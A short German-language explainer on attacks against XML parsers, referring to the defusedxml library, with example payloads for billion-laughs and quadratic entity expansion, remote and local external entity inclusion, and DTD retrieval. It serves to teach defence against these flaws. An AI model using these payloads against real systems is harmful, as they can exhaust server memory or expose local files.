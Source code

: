 # XML

[https://pypi.org/project/defusedxml/](https://pypi.org/project/defusedxml/)

Die Folgen eines Angriffs auf eine anfällige XML-Bibliothek können ziemlich dramatisch sein. Mit nur wenigen hundert Bytes XML-Daten kann ein Angreifer innerhalb von Sekunden mehrere Gigabyte Speicher belegen. Ein Angreifer kann CPUs auch mit einer kleinen bis mittelgroßen Anfrage längere Zeit beschäftigen. Unter Umständen ist es sogar möglich, auf lokale Dateien auf Ihrem Server zuzugreifen, eine Firewall zu umgehen oder Dienste zu missbrauchen, um Angriffe auf Dritte abzuwehren.

Die Angriffe nutzen und missbrauchen weniger verbreitete Funktionen von XML und seinen Parsern. Die Mehrheit der Entwickler ist mit Funktionen wie Verarbeitungsanweisungen und Entitätserweiterungen, die XML von SGML geerbt hat, nicht vertraut. Ihr Wissen über `<!DOCTYPE>` stammt meistens maximal durch Vorerfahrungen mit HTML, sie wissen aber nicht, dass eine Dokumenttypdefinition (DTD) eine HTTP-Anfrage generieren oder eine Datei aus dem Dateisystem laden kann.

## Angriffsvektoren

* billion  laughs/ exponential entity expansion

```
<!DOCTYPE xmlbomb [
<!ENTITY a "1234567890" >
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;">
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;">
<!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;">
]>
<bomb>&d;</bomb>
```

* quadratic blowup entity expansion

```
<!DOCTYPE bomb [
<!ENTITY a "xxxxxxx... a couple of ten thousand chars">
]>
<bomb>&a;&a;&a;... repeat</bomb>
```

* external entity expansion (remote)

```
<!DOCTYPE external [
<!ENTITY ee SYSTEM "http://www.python.org/some.xml">
]>
<root>&ee;</root>
```

* external entity expansion (lokal)

```
<!DOCTYPE external [
<!ENTITY ee SYSTEM "file:///PATH/TO/simple.xml">
]>
<root>&ee;</root>
```

* DTD retrieval

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
    <head/>
    <body>text</body>
</html>
```







